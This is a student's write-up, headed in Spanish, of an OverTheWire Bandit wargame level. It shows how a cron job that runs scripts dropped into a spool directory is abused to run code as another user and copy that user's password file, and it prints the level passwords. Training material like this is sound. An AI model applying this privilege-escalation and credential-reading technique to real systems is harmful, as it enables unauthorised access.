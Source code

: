 # Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…
# Datos de acceso al nivel
username = bandit23
password = QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
# Solución
```
bandit23@bandit:~$ cd /etc/cron.d/
bandit23@bandit:/etc/cron.d$ ls
cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24       e2scrub_all  sysstat
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root  otw-tmp-dir
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:/etc/cron.d$ cd /usr/bin/cronjob_bandit24.sh
-bash: cd: /usr/bin/cronjob_bandit24.sh: Not a directory
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:/etc/cron.d$ cd /var/spool/$myname/foo
-bash: cd: /var/spool//foo: No such file or directory
bandit23@bandit:/etc/cron.d$ cd /var/spool/bandit24/foo
bandit23@bandit:/var/spool/bandit24/foo$ ls
ls: cannot open directory '.': Permission denied
bandit23@bandit:/var/spool/bandit24/foo$ mkdir /tmp/bandit23
mkdir: cannot create directory ‘/tmp/bandit23’: File exists
bandit23@bandit:/var/spool/bandit24/foo$ cd /var/spool/bandit24/foo
bandit23@bandit:/var/spool/bandit24/foo$ touch /var/spool/bandit24/foo/script.sh
bandit23@bandit:/var/spool/bandit24/foo$ chmod +x /var/spool/bandit24/foo/script.sh
bandit23@bandit:/var/spool/bandit24/foo$ nano /var/spool/bandit24/foo/script.sh
Unable to create directory /home/bandit23/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit23@bandit:/var/spool/bandit24/foo$ cat /tmp/bandit23/password.txt.
cat: /tmp/bandit23/password.txt.: No such file or directory
bandit23@bandit:/var/spool/bandit24/foo$ cat /tmp/bandit23/password.txt
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

script: 
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/bandit23/password.txt

```
# Notas adicionales
Chmod: se usa para cambiar permisos.
# Referencias
- [OverTheWire: Updated Bandit Walkthrough — Level 23 | by Samxia99 | Feb, 2024 | Medium](https://medium.com/@samarthkokil64/overthewire-updated-bandit-walkthrough-level-23-7b636a48dbcd)